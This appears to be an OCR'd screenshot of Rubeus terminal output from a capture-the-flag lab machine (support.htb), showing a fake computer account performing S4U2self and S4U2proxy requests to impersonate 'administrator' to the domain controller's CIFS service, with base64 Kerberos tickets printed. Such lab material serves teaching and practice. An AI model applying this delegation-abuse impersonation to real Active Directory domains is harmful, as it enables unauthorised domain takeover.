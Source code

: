 ```
      PcnQOSc/FhukCBqLLMjdGgojyZoF5FHUwpDGfugZ4G0WcrLeZd/L4AhHw395gr3AeFCCawQ9XaUTjlOR
      oh2S3UJCZIizzk7Wiq320lYSFc2m0lMIPYr8i/70DAdlOUus6K2zArE2NnATqHKO6vAs7fy1p+KmF3B/
      6B1g6yr6D9aQo8xMP3qd3oyt4QslVlgqp+GBxh+cjWYv/rU6OFnGdtEa0xxLH/C1raCUXR6Rf1bEKn+t
      o49wwMt6qun7jcE3ugx/T09vU5Uwowit/X+qq3ePO3FDhxjPWHApbOW7wTU3f/kLo4fD6RGPaheYWOba
      BP88mxKCRhUy1hUtZ+kjamRCJD9QHXAj8RIoIrNMaEkpWI0Z7qw4RHwgPdY9vAqff1qkAhp5r5w+QC9y
      Y5JQx/gzruHzHXqYe7D1vADY1oiEQG7jsrbwY/i9I+qKn5BCFv7DXvjHpxWPKN/ndQnTnBbLwQb6ebh0
      CkH6GO4pDi7CpYVxdESomq3INLsrljYZuCafnJSqriyxw9d1ijpEosqzm6vLPbceDj41LVEquCkkaVsM
      pPdHPDGu0ojm+XmLaJGeSe2kNvoRd4htT9zux07Q/Mj8OF/gRxaQOEppIxh4YAKftSvWuU5jzzBtp9aq
      Ji+amwKGy5YfgrLPgIcWNMw93nZlcPBvM87WPFWuZ0vZq9eLwEa8+0rjnWAs2K7/kLWl0rYlt7fhSwcg
      lLKZn8OnFYHPLh2TcC6sXvxp6QGBj26CDZItT1iGukoG7EQ1poHRFRcsSPQyrRko5Z7naJy68tIZNu48
      H7mwyIdSySElDF1uTzq+IxB89wRZEKLw/0RXtOWD0M6RRDIhI0wrVv63PCwozFB+ieeLo4HcMIHZoAMC
      AQCigdEEgc59gcswgciggcUwgcIwgb+gGzAZoAMCARehEgQQ1yZNKdbgtnM3PxOJKOgHv6ENGwtTVVBQ
      T1JULkhUQqIeMBygAwIBAaEVMBMbETB4ZGZGYWtlQ29tcHV0ZXIkowcDBQBA4QAApREYDzIwMjIwNTI3
      MTkzODE3WqYRGA8yMDIyMDUyODA1MzgxN1qnERgPMjAyMjA2MDMxOTM4MTdaqA0bC1NVUFBPUlQuSFRC
      qSAwHqADAgECoRcwFRsGa3JidGd0GwtzdXBwb3J0Lmh0Yg==

[*] Action: S4U

[*] Using domain controller: dc.support.htb (fe80::4995:178:63d7:93c1%6)
[*] Building S4U2self request for: '0xdfFakeComputer$@SUPPORT.HTB'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator' to '0xdfFakeComputer$@SUPPORT.HTB'
[*] base64(ticket.kirbi):

      doIFtjCCBbKgAwIBBaEDAgEWooIEyzCCBMdhggTDMIIEv6ADAgEFoQ0bC1NVUFBPUlQuSFRCoh4wHKAD
      AgEBoRUwExsRMHhkZkZha2VDb21wdXRlciSjggSHMIIEg6ADAgEXoQMCAQGiggR1BIIEcZ6UqORuDjTI
      ovz9MkcGwxl8rVEyAFKXAVPrmN+iR2r8sUCOBmZS/ytvLBy6XGsg0GalPlL0IcINTxVrQbP1icxnroBo
      eLTqv3H901wMy7wS8cUgDBF54mAVlbucFvRq5TvGA+csHNjAV4b8RWhHbXlDkMRXZfTVmaQimnOzH103
      UvTuGuXKext8Z0STVMasbHm9FzP9vFL0d55G6vUO4nw29h4AoQ2o4Pi9+5Xm0zFnZaCx0yRYa8RFbBB6
      dcTEioS0aN1bnHG2WfuWVmJ6876loH+lV1oP8Rc9z9cN1lsSAEkDEK05RGBXbb6sWNNHPFVUDkcpcSg1
      Gg5NM5AI7jfgHSkRuuVe8dSrc5wD9KADcsaRSqL2zE9ykF691m/m8Lnj//dNWbx5HZ0UVQL3LKKXt9lP
      /HAPrZAVQ7WDGmTs1k+sdGOtkvmBrIpzqaqC53o2mOCezjxfBlT5SsgXu/M9bZa1PR9QAN6WuKW+/XUN
      asQzZ0PHY1CvkJQ3/w8LLJEl6X60vFK7WoOLPLa40pBfX/RnWakWB/FzF0ht5z4valdoo3LgMfxUtcVu
      LMARwoUSNJD5aOT1xRk10BYkSDtbqtx1VZGjCMjyDf+7Czqog1GIotk+GoCk3yt2lCCFpW/jp+zSmQMN
      8iAviSrrJHc4MaMa81EzDoB6Gj2ZMWowKL1Dv/ByE8XbSjd6rhWwVIhPBjaCKQCtI6qVoyfGnUmrHRt8
      oCtumbkyBahCJQ6tnSp3k8dyVAu9fPx968jNOSzVq+XGttjCt/U8Z0FNFsHcpIIQDP6Z5619aYemNvWh
      XG0q194XhH4xeSfcEfV0gFV4ppAjWgaQEXCfwp4j7HuC1DujEvk5co/2unh9TeNtKXkEd3ji+RwUXAd7
      YHlqh3QJiA2OXe2bm742HtNJOMVkNHB5Fg5wtcvVororI+2IzYQudpQy8sWzVHyEoUpEbTnZGMQL45nb
      TwSK1aSg71d5Bzr6Y5NB/ipmhYP45lA2hRci7RZAOn/tt7T6yhTjQsn1/RfC9XPax/vpzBYI5d5HFAO5
      4BBcA7mMXQHJ0XOkOIHo87AeLyW8UjshDgw6sjeebtAWxXjjuvUqNOkfuxXAAvP4OZIs4qA1hRp+jZj8
      KlrRqDqiqCmAD1Li7SGDMgUA8OlX+7leb/ZouUX4/edRVqZDLvT/nxmHN8BzQipvq/YkkEAwIdvisvR9
      JBCr248djlp7ZsZRGWKaNLlkB2o6pfqOZwx3wNrKjz44/HR51tYx7qaiRnuhAt0Xeyf5OK1Y6HYk/Xev
      VzKUoCcVoZQS8cYWNRlanlE4kdhKl40us2bny8GIEvKoDnt0NYWr5WaUohi7gK0g9sw29FfgqSDOnU7q
      x2QUkLlT0x3ZeqwwTIS+odRAUh+4SP+dDf/ip77FSRM+krPERNZoE9W0QAhPGPHf3C/3mxt8MnESZJ+I
      TL3dYzFTDXjg7OWb3MJ/cNziBCpQX726jeHuey6+iuUhPWJEu72qWdQRjoW09eBqhaOB1jCB06ADAgEA
      ooHLBIHIfYHFMIHCoIG/MIG8MIG5oBswGaADAgEXoRIEEFgqzBwaCN/nUkRZaYlagIShDRsLU1VQUE9S
      VC5IVEKiGjAYoAMCAQqhETAPGw1hZG1pbmlzdHJhdG9yowcDBQBAoQAApREYDzIwMjIwNTI3MTkzODE3
      WqYRGA8yMDIyMDUyODA1MzgxN1qnERgPMjAyMjA2MDMxOTM4MTdaqA0bC1NVUFBPUlQuSFRCqR4wHKAD
      AgEBoRUwExsRMHhkZkZha2VDb21wdXRlciQ=

[*] Impersonating user 'administrator' to target SPN 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (fe80::4995:178:63d7:93c1%6)
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

      doIGeDCCBnSgAwIBBaEDAgEWooIFijCCBYZhggWCMIIFfqADAgEFoQ0bC1NVUFBPUlQuSFRCoiEwH6AD
      AgECoRgwFhsEY2lmcxsOZGMuc3VwcG9ydC5odGKjggVDMIIFP6ADAgESoQMCAQOiggUxBIIFLYtlsb4A
      W2FgIawXtORIZqiBCGtydTEnjJXa3e/tP8CJ5J/5CNmBnUspcJ/BpAl76tihIcyG9eoIb7G0Y8lr4vid
      EIcHYOpGb4eiYJLj+0XrvtSmBnZ4L6hFq+gQkg/BrgNoHHzoAYF8D0V2P2/ogWFOPeRSxnZ8MvhXtodO
      TkhN2I23zm7bkBYErGkYN51hJU3w54XVchTN6IOlWa6WPj7o73itFJqer5/w2wQPAdC5/3cFt6vs74UL
```